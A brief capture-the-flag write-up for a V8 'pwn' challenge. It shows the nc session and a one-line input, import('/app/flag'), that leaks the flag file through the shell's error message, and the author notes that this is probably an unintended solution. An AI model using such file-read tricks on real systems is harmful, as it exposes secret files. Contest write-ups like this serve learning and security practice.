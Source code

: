 # Nativity Scene (pwn, 312+21 pts, 8 solved)

We can use `import` function to leak content of the flag file "/app/flag" as follows:
```
$ nc 35.246.66.119 1337
Solve PoW with: hashcash -mqb28 uuqmslhq
1:28:200510:uuqmslhq::HvH8Kkm9q+NTtm1D:000000005eIoq

******IMPORTANT******
Read the description on the website.
******IMPORTANT******

Please submit your exploit and then a line containing "EOF".
Your script will be written to a file and invoked via `/app/d8 --allow-natives-syntax input.js`

import("/app/flag");
EOF
/app/flag:1: SyntaxError: Unexpected token '{'
SaF{https://www.youtube.com/watch?v=bUx9yPS4ExY}
   ^
SyntaxError: Unexpected token '{'

```

The above does not depend on any _runtime functions_ that are enabled with `--allow-natives-syntax`, so I believe it is not the intended solution.
